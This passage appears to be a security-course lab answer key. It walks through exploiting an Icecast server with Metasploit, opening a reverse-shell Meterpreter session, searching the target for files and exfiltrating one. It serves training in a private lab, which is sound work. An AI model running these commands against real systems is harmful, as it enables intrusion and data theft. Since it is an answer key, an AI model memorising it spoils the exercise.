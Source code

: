    - Run the command that sets the `RHOST`:
      
     > Answer: 

      ```
      msf5 exploit(windows/http/icecast_header) > set RHOSTS 192.168.0.20
      RHOSTS => 192.168.0.20
      ```
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: 

      ```
      msf5 exploit(windows/http/icecast_header) > exploit

      [*] Started reverse TCP handler on 192.168.0.8:4444 
      [*] Sending stage (180291 bytes) to 192.168.0.20
      [*] Meterpreter session 1 opened (192.168.0.8:4444 -> 192.168.0.20:58885) at 2021-09-27 03:45:05 -0700

      meterpreter > 
      ```
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: 

      ```
      meterpreter > search -f *secretfile.txt
      Found 1 result...
          c:\Users\IEUser\Documents\user.secretfile.txt (161 bytes)

      ```
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: 

      ```
      meterpreter > search -f *recipe.txt
      Found 1 result...
          c:\Users\IEUser\Documents\Drinks.recipe.txt (48 bytes)
      ```
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: 
      ```
      meterpreter > download "c:\Users\IEUser\Documents\Drinks.recipe.txt"
      [*] Downloading: c:\Users\IEUser\Documents\Drinks.recipe.txt -> Drinks.recipe.txt
      [*] Downloaded 48.00 B of 48.00 B (100.0%): c:\Users\IEUser\Documents\Drinks.recipe.txt -> Drinks.recipe.txt
      [*] download   : c:\Users\IEUser\Documents\Drinks.recipe.txt -> Drinks.recipe.txt
      ```
